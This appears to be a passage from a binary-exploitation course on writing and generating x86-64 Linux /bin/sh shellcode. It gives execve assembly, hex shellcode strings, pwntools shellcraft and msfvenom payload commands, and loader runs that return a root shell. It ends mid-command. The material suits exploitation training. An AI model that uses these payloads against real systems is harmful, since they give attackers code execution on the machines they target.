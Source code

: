 # Shellcoding Tools

We should now be able to modify our code and make it shellcode compatible, such that it meets all Shellcoding Requirements. This understanding is crucial for crafting our own shellcodes and minimizing their size, which may become very handy when dealing with Binary Exploitation, especially when we don't have a lot of room for a large shellcode.

In certain other cases, we may not need to write our own shellcode every time, as a similar shellcode may already exist, or we can use tools to generate our shellcode, so we don't have to reinvent the wheel.

We will come across many common shellcodes through Binary Exploitation, like a Reverse Shell shellcode or a /bin/sh shellcode. We can find many shellcodes that perform these functions, which we may be able to use with minimal or no modification. We can also use tools to generate both of these shellcodes.

For either of these, we must be sure to use a shellcode that matches our target Operating System and Processor Architecture.

## Shell Shellcode

Before we continue with tools and online resources, let's try to craft our own /bin/sh shellcode. To do so, we can use the execve syscall with syscall number 59, which allows us to execute a system application:

```

z0x9n@htb[/htb]$ man -s 2 execve

int execve(const char *pathname, char *const argv[], char \*const envp[]);

```

As we can see, the execve syscall accepts 3 arguments. We need to execute `/bin/sh /bin/sh`, which would drop us in a sh shell. So, we our final function to be:

```c
execve("/bin//sh", ["/bin//sh"], NULL)
```

So, we'll set our arguments as:

- rax -> 59 (execve syscall number)
- rdi -> ['/bin//sh'] (pointer to program to execute)
- rsi -> ['/bin//sh'] (list of pointers for arguments)
- rdx -> NULL (no environment variables)

Note: We added an extra / in '/bin//sh' so that the total character count is 8, which fills up a 64-bit register, so we don't have to worry about clearing the register beforehand or dealing with any leftovers. Any extra slashes are ignored in Linux, so this is a handy trick to even the total character count when needed, and it is used a lot in binary exploitation.

Using the same concepts we learned for calling a syscall, the following assembly code should execute the syscall we need:

```nasm
global _start

section .text
_start:
    mov rax, 59         ; execve syscall number
    push 0              ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push 0              ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    mov rdx, 0          ; set env to NULL
    syscall
```

As we can see, we pushed two (NULL-terminated) '/bin//sh' strings and then moved their pointers to rdi and rsi. We should know by now that the above assembly code will not produce a working shellcode since it contains NULL bytes.

Try to remove all NULL bytes from the above assembly code to produce a working shellcode.

Once we fix our code, we can run `shellcoder.py` on it, and have a shellcode with no NULL bytes:

```
z0x9n@htb[/htb]$ python3 shellcoder.py sh

b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes
```

Try running the above shellcode with `loader.py` to see if it works and drops us in a shell. Now let's try to get another shellcode for /bin/sh, using shellcode generation tools.

## Shellcraft

Let's start with our usual tools, pwntools, and use its shellcraft library, which generates a shellcode for various syscalls. We can list syscalls the tool accepts as follows:

```
z0x9n@htb[/htb]$ pwn shellcraft -l 'amd64.linux'

...SNIP...
amd64.linux.sh
```

We see the `amd64.linux.sh` syscall, which would drop us into a shell like our above shellcode. We can generate its shellcode as follows:

```
z0x9n@htb[/htb]$ pwn shellcraft amd64.linux.sh

6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```

Note that this shellcode is not as optimized and short as our shellcode. We can run the shellcode by adding the `-r` flag:

```
z0x9n@htb[/htb]$ pwn shellcraft amd64.linux.sh -r

$ whoami

root
```

And it works as expected. Furthermore, we can use the Python3 interpreter to unlock shellcraft fully and use advanced syscalls with arguments. First, we can list all available syscalls with `dir(shellcraft)`, as follows:

```
z0x9n@htb[/htb]$ python3

>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> dir(shellcraft)

[...SNIP... 'execve', 'exit', 'exit_group', ... SNIP...]
```

Let's use the execve syscall like we did above to drop in a shell, as follows:

```
>>> syscall = shellcraft.execve(path='/bin/sh',argv=['/bin/sh']) # syscall and args
>>> asm(syscall).hex() # print shellcode

'48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'
```

We can find a complete list of x86_64 accepted syscalls and their arguments on [this link](https://docs.pwntools.com/en/stable/shellcraft.html#pwnlib.shellcraft.amd64.linux). We can now try running this shellcode with `loader.py`:

```
z0x9n@htb[/htb]$ python3 loader.py '48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'

$ whoami

root
```

And it works as expected.

## Msfvenom

Let's try msfvenom, which is another common tool we can use for shellcode generation. Once again, we can list various available payloads for Linux and x86_64 with:

```
z0x9n@htb[/htb]$ msfvenom -l payloads | grep 'linux/x64'

linux/x64/exec                                      Execute an arbitrary command
...SNIP...
```

The `exec` payload allows us to execute a command we specify. Let's pass `'/bin/sh/'` for the `CMD`, and test the shellcode we get:

```
z0x9n@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'

No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of hex file: 96 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

Note that this shellcode is also not as optimized and short as our shellcode. Let's try running this shellcode with our `loader.py` script:

```
z0x9n@htb[/htb]$ python3 loader.py '6a3b589948bb2f62696e2f736
```
